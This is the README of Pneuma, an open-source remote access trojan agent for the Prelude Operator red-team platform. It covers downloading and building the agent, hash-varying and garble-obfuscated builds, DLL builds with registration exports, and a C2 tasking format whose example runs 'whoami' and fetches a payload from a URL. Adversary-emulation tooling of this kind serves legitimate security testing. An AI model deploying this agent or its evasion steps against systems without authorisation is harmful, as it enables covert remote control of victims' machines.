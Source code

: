 # Pneuma

Pneuma is a cross-compiled [Operator](https://www.prelude.org) agent which can communicate over all available listening post protocols, currently gRPC, TCP, UDP and HTTP.

> This repo is for those who feel comfortable working with the inner workings of a Remote Access Trojan (RAT). If you simply need a copy of the Pneuma agent, there are precompiled versions available for [MacOS](https://s3.amazonaws.com/operator.payloads.open/payloads/pneuma/pneuma-darwin), [Windows](https://s3.amazonaws.com/operator.payloads.open/payloads/pneuma/pneuma-windows.exe) and [Linux](https://s3.amazonaws.com/operator.payloads.open/payloads/pneuma/pneuma-linux). You will need to mark these as executable after downloading.

This agent can be used with Operator, as designed, or pointed at any command-and-control (C2) listening post that can accept its beacon. More details on this below.

## Getting started

Clone this repository. Then ensure GoLang 1.16+ is installed before continuing.

To use the agent, install GoLang then start the agent against whichever protocol you want:

> If using a precompiled version, replace 'go run main.go' with './pneuma-windows.exe' in the below commands, replacing pneuma.exe with the name of your downloaded file.

```
go run main.go -contact tcp -address 127.0.0.1:2323
go run main.go -contact udp -address 127.0.0.1:4545
go run main.go -contact http -address http://127.0.0.1:3391
go run main.go -contact grpc -address 127.0.0.1:2513
```

Change the address field to the location of Prelude Operator, if you are running your agent on a different computer.

> GRPC is not a builtin protocol supported by Operator, however one can deploy an Operator translator to accept GRPC beacons.
```
protoc --go_out=. --go_opt=paths=source_relative --go-grpc_out=. --go-grpc_opt=paths=source_relative beacon.proto
```

## Compile

When you are ready to use Pneuma in a real environment, you will want to compile it into a binary by running the build.sh script, passing in any string as your unique (public) randomHash string, which ensures each compiled agent gets a different file hash:
```shell
./build.sh JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA
```

On windows you can build with:

```powershell
.\build.ps1 -randomHash "JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA"
```

There is also support for garble builds (Thanks to the amazing work here: https://github.com/burrowers/garble):

```shell
GO111MODULE=on go get mvdan.cc/garble
go mod tidy
./garble-build.sh JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA
```

```powershell
GO111MODULE=on go get mvdan.cc/garble
go mod tidy
.\garble-build.ps1 -randomHash "JWHQZM9Z4HQOYICDHW4OCJAXPPNHBA"
```

This will output a file (into the payloads directory) for each supported operating system, which you can copy to any target system and execute normally
to start the agent. 

> Before you compile, consider changing the AESKey variable inside util/conf/default.json. This value represents
> the encryption key to encrypt/decrypt communications with Prelude Operator. This key must be 32-characters
> and must match the encryption key in the Prelude Operator Emulate section. Also consider
> changing the default address parameters in main.go, so you can start your agent without command-line arguments.

## C-Shared library compilation (DLL, SO, DyLib)

Pneuma supports cross compilation to 64-bit C-shared libraries depending upon the platform you are building on. When using a C-Shared library,
you must specifically compile in the parameters you want to configure in the `util/conf/default.json` file (specifically the `address`
and the `contact` you wish you use).

We currently support:

* **Windows**: `build.ps1` and `garble-build.ps1` builds DLL
* **Darwin**: `build.sh` and `garble-build.sh` builds DLL, Dylib, SO
  * Depends on `x86_64-w64-mingw32-gcc` (Windows) and `x86_64-linux-musl-gcc` (Linux)
* **Linux**: `build.sh` and `garble-build.sh` builds DLL, Dylib, SO
  * Depends on `x86_64-w64-mingw32-gcc` (Windows) and `o64-clang` (Darwin)

To install dependencies on Darwin:
```shell
brew install mingw-w64 FiloSottile/musl-cross/musl-cross
```

To install dependencies on Linux:
```shell
# yum repos for Windows builds
yum install mingw64-gcc

# apt repos for Windows builds
apt-get install mingw64-gcc

# Darwin builds
# Follow the instructions here: https://github.com/tpoechtrager/osxcross
```

You can modify the exported functions by modifying the names of the functions in the `library/library.go` file. Default exported functions:
```go
//export VoidFunc
func VoidFunc()

//export RunAgent
func RunAgent()

//export DllInstall
func DllInstall()

//export DllRegisterServer
func DllRegisterServer()

//export DllUnregisterServer
func DllUnregisterServer()
```

## Use without Operator

While Pneuma is designed to work with Prelude Operator, as an open-source agent you can point it against any command-and-control (C2) listening post you want. To do this, follow these instructions:

- Ensure your C2 is up & accepting traffic on the same Pneuma port you want to use
- Start Pneuma, pointing it at your C2
- The C2 server will send instructions in this format which get encrypted with your KEY inside Key Management in Settings:
```
{
  ID: "067e99fb-f88f-49a8-aadc-b5cadf3438d4",
  ttp: "0b726950-11fc-4b15-a7d3-0d6e9cfdbeab",
  tactic: "discovery",
  Executor: "sh",
  Request: "whoami",
  Payload: "https://s3.amazonaws.com/operator.payloads/demo.exe",
}
```
- Your C2 will receive an encrypted string, using the KEY inside cryptic.go. Your C2 should use the same encryption key to decrypt the string, which will resolve in a JSON-object, which will contain the below structure:
```
{
  "Name": "test",
  "Target": "0.0.0.0:2323",
  "Hostname": "ubuntu-host",
  "Location": "/tmp/me.go"
  "Platform": "darwin",
  "Executors": ["sh"],
  "Range": "red",
  "Pwd": "/tmp",
  "Links": []
}
```

- Your C2 should then fill in links (instructions) for the agent to complete. Each link should have the following structure. Response, Status and Pid will be filled in by Pneuma after running the Request:
```
{
  "ID": "123",
  "Executor": "sh",
  "Payload: "",
  "Request": "whoami",
  "Response: "",
  "Status: 0,
  "Pid": 0
}
```
- Encrypt your new JSON object with the same encryption key and send it back to the agent.

This ping/pong of this beacon/JSON-object should continue on whatever periodic basis you desire. 

## CALDERA inspired

As former CALDERA leads, we wrote the MITRE Sandcat and Manx agents. Pneuma is its own thing but it shares characteristics with both of these original agents.

## Interested in contributing?

We strongly support contributors to this project. Please fork this repo and submit pull requests for considerations.

### Write your own agent

We plan on publishing an agent interface in the future, to describe how to build your own agents in any language. In the meantime, this code was written in a simplistic way to be an example for any agent you want to build.

